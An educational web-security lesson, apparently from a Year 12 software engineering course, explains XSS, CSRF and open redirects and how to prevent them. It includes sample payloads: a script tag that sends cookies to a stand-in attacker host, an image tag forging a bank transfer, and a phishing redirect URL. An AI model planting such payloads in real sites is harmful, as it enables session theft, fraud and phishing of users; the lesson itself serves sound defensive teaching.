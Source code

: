 ```yaml
---
description: >-
  Learn how attackers exploit web applications through XSS, CSRF, and insecure
  redirects — and how to prevent these vulnerabilities using secure coding
  practices.
---
```


# 430.5 Web-based threats: XSS, CSRF, and redirect flaws

### Objectives

* Identify how common user action vulnerabilities like XSS, CSRF, and insecure redirects occur
* Explain how these vulnerabilities affect confidentiality, integrity, and trust
* Apply secure coding strategies to prevent them in real-world systems

### Syllabus references

<details>

<summary><a href="https://curriculum.nsw.edu.au/learning-areas/tas/software-engineering-11-12-2022/content/year-12/fa039e749d">Secure software architecture</a></summary>

* Design, develop and implement secure code to minimise vulnerabilities in user action controls, including:\
  – cross-site scripting (XSS)\
  – cross-site request forgery (CSRF)\
  – invalid forwarding and redirecting

</details>

### Cross-site scripting (XSS)

**XSS** occurs when an attacker injects malicious JavaScript into a web page that is later displayed to other users. This script can steal cookies, hijack sessions, or change what the user sees.

#### Example:

A comment field that saves user input without escaping tags:

```html
<!-- Attacker submits this as a comment -->
<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>
```

If the website displays this directly, any user who views the page will unknowingly run the attacker’s script.

#### Prevention:

* [**Escape**](#user-content-fn-1)[^1] **or** [**encode**](#user-content-fn-2)[^2] **output** when displaying user input
* Use a templating engine that automatically escapes HTML (e.g. Jinja2, React)
* Validate input to allow only safe content (e.g. plain text)

### Cross-site request forgery (CSRF)

**CSRF** tricks a logged-in user into submitting an unwanted request to a site they’re authenticated with — usually without their knowledge.

#### Example:

An attacker sends a link to a logged-in banking user that silently transfers funds:

```html
<img src="https://bank.com/transfer?amount=1000&to=attacker"/>
```

If the user is logged in, the browser sends the request with the user’s session cookies, and the transfer goes through.

#### Prevention:

* Use **CSRF tokens** — random values tied to the session and submitted with each form
* Validate tokens server-side
* Use the **SameSite** cookie flag and **POST** requests for sensitive actions

### Invalid forwarding and redirecting

Some sites allow users to choose where to go next (e.g., after logging in). If this redirect destination is not validated, attackers can redirect users to **malicious lookalike sites**.

#### Example:

```http
https://school.com/login?next=http://phishingsite.com
```

If the app redirects users to `next` without checking it, users may be tricked into entering credentials on the phishing page.

#### Prevention:

* Never trust redirect URLs from the client
* Keep a whitelist of allowed redirect destinations
* Use relative paths (e.g. `/dashboard`) instead of complete URLs

***

### Summary

* **XSS** allows attackers to inject scripts that run in the browser
* **CSRF** tricks users into sending unwanted requests while logged in
* **Insecure redirects** allow phishing attacks or loss of trust
* All of these flaws can be mitigated by validating input, encoding output, and following safe design patterns

[^1]: To **escape** user input means to convert special characters (like `<`, `>`, `"`, `'`) into a safe format (e.g. `&lt;`, `&gt;`) so they are treated as plain text, not executable code. This prevents malicious scripts from being interpreted by the browser, and is essential in defending against cross-site scripting (XSS) attacks.

[^2]: To **encode** user input means to convert special characters into a safe, displayable format so they are not interpreted as code by the browser. This ensures that user-generated content appears as text rather than being executed — a key defence against XSS attacks. Output encoding is often used interchangeably with escaping in web security.
